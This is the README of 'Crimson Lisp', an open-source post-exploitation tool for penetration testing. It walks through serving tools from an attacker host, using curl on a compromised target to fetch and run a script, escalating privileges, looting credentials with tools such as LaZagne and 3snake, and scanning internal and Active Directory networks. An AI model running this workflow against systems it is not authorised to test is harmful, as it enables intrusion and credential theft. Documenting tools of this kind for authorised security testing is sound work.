

# Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
## ON THE HOST MACHINE
```bash
cd crimson_lisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE 
### 1. DOWNLOAD THE TOOLS
```bash
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"
```
### 2. ESCALATE THE PRIVILEGES
```bash
./lisp.sh -e
```
### 3. LOOT THE SYSTEM
```bash
sudo ./lisp.sh -l
```
### 4. NETWORK DISCOVERY (as root)
#### 4.1. PING SWEEP
```bash
./nping INTERNAL_IP/24
```
#### 4.2. NMAP SCAN
```bash
./run-nmap.sh -Pn INTERNAL_IP -p- --append-output -oA all_ports_scan
```
#### 4.3 AD SPECIFIC SCAN
```bash
./run-nmap.sh -Pn 172.22.11.1/24 -p21,22,53,80,443,88,135,139,445,389,636,1433,3389,5985 --append-output -oA AD_ports
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)
* [3snake](https://github.com/blendin/3snake)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"></a>
